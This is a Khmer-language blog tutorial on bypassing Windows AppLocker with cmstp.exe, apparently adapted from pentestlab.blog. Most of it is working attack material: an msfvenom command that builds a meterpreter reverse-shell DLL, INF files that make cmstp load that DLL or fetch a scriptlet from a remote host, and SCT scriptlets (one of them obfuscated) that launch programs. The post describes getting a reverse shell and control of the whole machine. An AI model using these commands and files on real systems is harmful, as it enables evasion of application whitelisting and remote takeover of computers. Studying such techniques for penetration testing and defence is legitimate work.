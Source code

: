 ```yaml
---
title: "AppLocker Bypass - CMSTP"
date: 2022-12-03T02:00:06+07:00
description: DLL Bypass AppLocker ជាមួយឯកសារ CMSTP
draft: false
hideToc: false
enableToc: true
enableTocContent: false
author: thik
authorEmoji: 🐱
tags: 
- dll
- bypass
- inf
- sct
categories:
- CMSTP
series:
- WinExE
image: images/feature3/code-file.png
---
```


ឯកសារ CMSTP ត្រូវបានរក្សាទុកនៅក្នុងថតឯកសារនៃវីនដូ៖

{{< highlight plain "linenos=table" >}}
C:\Windows\System32\cmstp.exe
C:\Windows\SysWOW64\cmstp.exe
{{< / highlight >}}

វីធីសាស្ត្រមួយនេះត្រូវបានរកឃើញដោយលោក [Oddvar Moe](https://twitter.com/Oddvarmoe) អាចអានលំអិតនៅក្នុង [Blog](https://twitter.com/Oddvarmoe) របស់គាត់។

#### DLL

Metasploit ត្រូវបានប្រើប្រាស់ដើម្បីបង្កើតឯកសារមេរោគ DLL តាមរយៈ MSFvenom ។

{{< highlight plain "linenos=table" >}}
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.200.55 LPORT=4444 -f dll > idm.dll
{{< / highlight >}}

![Metasploit - Malicious Dll Generation](/en/posts/img/2022/12/applocker-cmstp-bypass/generate-malicious-dll.png)

សម្រាប់ផ្នែក RegisterOCXSection តម្រូវឲ្យដាក់ទីតាំងរបស់ឯកសារ DLL ដែល​បាន​បង្កើត​រួច។

{{< highlight inf "linenos=table,hl_lines=9" >}}
[version]
Signature=$chicago$
AdvancedINF=2.5
 
[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection
 
[RegisterOCXSection]
C:\Users\Victim\idm.dll
 
[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="idm"
ShortSvcName="idm"
{{< / highlight >}}

រក្សាទុកជា <span style="color:red">"idm-service.inf"</span>

បើកដំណើរការ Multi/handler នៅលើម៉ាស៊ីនមេ និង កំណត់ទទួលការតភ្ជាប់។

![CMSTP – Metasploit Multi Handler](/en/posts/img/2022/12/applocker-cmstp-bypass/msf-multi-handler.png)

Payload នឹងដំណើរការភ្លាមៗនៅពេលដែលឯកសារ INF ត្រូវ​បាន​បើក​ដោយ​ប្រើប្រាស់ឯកសារ CMSTP ។

![CMSTP – INF Execution Locally](/en/posts/img/2022/12/applocker-cmstp-bypass/exec-inf.png)

បន្ទាប់មក Metasploit និងទទួលបាន Reverse Shell ក្រោយពីស្គ្រីបបានបើកឯកសារ DLL រួច។

![CMSTP – Meterpreter via DLL Execution](/en/posts/img/2022/12/applocker-cmstp-bypass/reverse-shell.png)

#### SCT

CMSTP ក៏អាចប្រើប្រាស់ឯកសារប្រភេទ SCT ដើម្បី​ទាញយក​ពាក្យ​បញ្ជា​ផ្សេងៗ​ពីម៉ាស៊ីនមេ​មក​ប្រើប្រាស់​ផង​ដែរ។

លោក [Nick Tyrere](https://twitter.com/nickTyrer/) បានបង្ហាញលំអិតនៅក្នុង [Twitter](https://twitter.com/NickTyrer/status/958450014111633408) របស់គាត់។

លោកក៏បានបង្កើតស្គ្រីបនេះដោយដាក់ឈ្មោះថា [powersct.sct](https://gist.github.com/NickTyrer/0604bb9d7bcfef9e0cf82c28a7b76f0f/) ដែល​​ប្រើ​សម្រាប់​បើក​ដំណើរ​ការ​ពាក្យ​បញ្ជា​គ្រោះ​ថ្នាក់​ណាមួយ​ចេញ​ពី PowerShell ។

សម្រាប់ផ្នែក RegisterOCXSection តម្រូវឲ្យដាក់ទីតាំងដំណរភ្ជាប់របស់ឯកសារ SCT ។

{{< highlight inf "linenos=table,hl_lines=9" >}}
[version]
Signature=$chicago$
AdvancedINF=2.5
 
[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection
 
[RegisterOCXSection]
%11%\scrobj.dll,NI,http://192.168.200.55/pentestlab.sct
 
[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="idm"
ShortSvcName="idm"
{{< / highlight >}}

{{< highlight cfg "linenos=table,hl_lines=12" >}}
### powersct.sct

<?XML version="1.0"?>
<scriptlet>
<registration 
    progid="Pentest"
    classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
	<!-- Proof Of Concept - @netbiosX -->
	<script language="JScript">
		<![CDATA[
	
			var r = new ActiveXObject("WScript.Shell").Run("cmd /k cd c:\ & pentestlab.exe");	
	
		]]>
</script>
</registration>
</scriptlet>
{{< / highlight >}}

{{< highlight cfg "linenos=table,hl_lines=12" >}}
### SCT File Obfuscation Examples:

<?XML version="1.0"?>
<scriptlet>
<registration 
    progid="PoC"
    classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
	<!-- Proof Of Concept - Casey Smith @subTee -->
	<!--  License: BSD3-Clause -->
	<script language="JScript">
	<![CDATA[
		//x86 only. C:\Windows\Syswow64\regsvr32.exe /s /u /i:file.sct scrobj.dll
		
		var scr = new ActiveXObject("MSScriptControl.ScriptControl");
		scr.Language = "JScript";
		scr.ExecuteStatement('var r = new ActiveXObject("WScript.Shell").Run("calc.exe");');
		scr.Eval('var r = new ActiveXObject("WScript.Shell").Run("calc.exe");');
		
		//https://msdn.microsoft.com/en-us/library/aa227637(v=vs.60).aspx
		//Lots of hints here on futher obfuscation
		]]></script>
</registration>
</scriptlet>
{{< / highlight >}}

នៅពេលដំណើរការស្ក្រីបនៃឯកសារ INF វានឹងលោត​ផ្ទាំង​វីន​ដូមួយ​ចេញ​មក​ដើម្បី​ដំណើរ​ការ​ពាក្យ​បញ្ជា PowerShell ។

![CMSTP – SCT Execution Locally](/en/posts/img/2022/12/applocker-cmstp-bypass/exec-inf.png)

ក្រោយដំណើរការស្ក្រីបរួច ឯកសារមេរោគនឹងធ្វើការទាញយកពីម៉ាស៊ីនមេហើយធ្វើប្រតិបត្តិភ្លាមៗតែម្ដង។

ពេលនោះ Metasploit និងទទួលបាន Reverse Shell ហើយគ្រប់​គ្រង​ម៉ាស៊ីន​ទាំង​មូល៕

![CMSTP – Meterpreter via SCT Execution](/en/posts/img/2022/12/applocker-cmstp-bypass/reverse-shell.png)

<b>ឯកសារយោង:</b>
- [pentestlab.blog](https://pentestlab.blog/2018/05/10/applocker-bypass-cmstp/)
- [ha.cker.in](https://ha.cker.in/index.php/Article/15159)
- [ired.team](https://www.ired.team/offensive-security/code-execution/t1170-mshta-code-execution)
